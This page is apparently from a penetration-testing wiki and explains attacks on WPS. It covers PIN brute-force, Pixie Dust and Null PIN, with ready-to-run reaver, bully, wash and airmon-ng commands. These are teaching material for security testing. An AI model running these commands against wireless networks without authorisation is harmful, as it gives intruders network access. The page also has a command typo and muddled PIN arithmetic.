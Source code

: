 ```yaml
---
authors: ShutdownRepo, joker2a, blepdoge
---
```


# WPS

## Theory

Wi-Fi Protected Setup (WPS) is a simplified configuration protocol designed to make connecting devices to a secure wireless network easier.
WPS employs an 8-digit PIN for user network connection, verifying the first 4 digits before proceeding to check the remaining 4. This allows for a potential Brute-Force attack on the first set of digits followed by the second set, with a total of only 11,000 possible combinations.

> [!TIP]
> Initially it's 20k possible combinations (10^8 =100.000.000 to 10^4+10^4=20.000) but as the 8th digit of the PIN is always a checksum of digit one to digit seven, there are at most (10^4 +10^3=11.000) attempts needed to find the correct PIN.

Below are some known attacks on Wi-Fi Protected Setup (WPS):

* PIN Brute-Force: Some routers with WPS allow users to connect by entering an 8-digit PIN code. A brute-force attack involves trying all possible combinations until the correct PIN is found.
* Pixie Dust: This attack exploits a weakness in the generation of WPS encryption keys. It involves exploiting vulnerabilities in certain routers during the creation of WPA/WPA2 encryption keys.
* PIN Revelation: Certain WPS-enabled routers may reveal information about the validity of the PIN during a connection attempt. This information disclosure can aid an attacker in narrowing down the search space during a brute-force attack.
* Access Point Enumeration: Some routers with WPS may be vulnerable to an attack that allows an attacker to determine which access points are present in a given area.

## Practice

Most WPS attacks mentioned below can be conducted using [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon) (Bash) or [wifite2](https://github.com/derv82/wifite2) (Python).

> [!TIP]
> Monitor mode can be activated automatically with these tools. The [monitor](#monitor-mode) section would not needed then.

> [!CAUTION]
> Some of the commands listed in this section may require high privileges to run. Containers would also need high privileges on a host.


There are three main methods for setting up a connection using WPS:

* Push Button Configuration (PBC): Press the WPS button on the router and then activate the WPS function on the device to connect. The two devices will automatically establish a connection.
* PIN based Configuration: Each WPS-enabled device has a unique PIN code. It can be entered on the router through its web interface, or vice versa, to establish the connection.
* Near Field Communication Configuration: In which the user has to bring the new client close to the access point to allow a near field communication between the devices. NFC Forum–compliant RFID tags can also be used.

### Monitor mode

The default configuration for wireless interfaces is "Managed" mode, restricting packet capture to those with a "Destination MAC" matching the interface's own MAC address.
To capture all packets within a wireless device's range, switch the mode to "Monitor."

::: tabs


=== UNIX-like


The following native commands can be used to have a capable network interface in monitor mode.

```bash
# view wireless interfaces and check their current mode.
iwconfig

# disable a network interface
ifconfig "$INTERFACE" down

# change the interface mode to monitor
iwconfig "$INTERFACE" mode monitor

# re-enable your network interface.
ifconfig "$INTERFACE" up
```


=== Aircrack-ng


With [Aircrack-ng](https://www.aircrack-ng.org/) (C) installed, the following commands can be used.

```bash
# list all your network interfaces.
airmon-ng

# stop interfering network processes
arimon-ng check kill

# start a network interface in monitor mode
airmon-ng start "$INTERFACE"
```



:::


### Recon

[Wash](https://github.com/t6x/reaver-wps-fork-t6x) is used to identify nearby WPS-enabled access points along with their main characteristics. It is included in the [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) package.

```bash
wash -i "$INTERFACE"
```

### PIN Brute-Force

In 2011, researcher [Stefan Viehböck](https://twitter.com/sviehb) identified a design and implementation flaw that made PIN-based WPS vulnerable to brute-force attacks. A successful exploitation of this flaw would grant unauthorized individuals access to the network, and the sole effective solution is to disable WPS.

Two main tools are now available for conducting this attack: [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) and [Bully](https://github.com/aanarchyy/bully) (C).

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -S -F -B -v 3
```

### Pixie Dust

In 2014, [Dominique Bongard](https://twitter.com/Reversity) identified a security vulnerability he dubbed "Pixie Dust". It specifically targets the default WPS implementation found in wireless chips produced by various manufacturers, including Ralink, MediaTek, Realtek, and Broadcom. The attack exploits a randomization deficiency during the generation of the "E-S1" and "E-S2" "secret" nonces. Knowing these nonces, the PIN can be retrieved in a matter of minutes. 

A tool called [pixiewps](https://github.com/wiire-a/pixiewps) was developed, and a new version of [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) was created to automate the attack.

Check [this list](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y) to know which router model is vulnerable.

```bash
# Use 5GHz 802.11 channels (for both tools): -5

# With reaver
# Verbosity of output (for reaver): -v -vv -vvv
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -K 1 -N -vv

# With bully
# Verbosity of output: -v 1 -v 2 -v 3
bully "$INTERFACE" -b "$BSSID" -d -v 3
```

### Null Pin

Some poorly implemented systems allowed the use of a "Null" PIN for connections. [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) can conduct the attack, whereas [Bully](https://github.com/aanarchyy/bully) lacks this specific functionality.

```bash
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -f -N -g 1 -vv -p ''
```
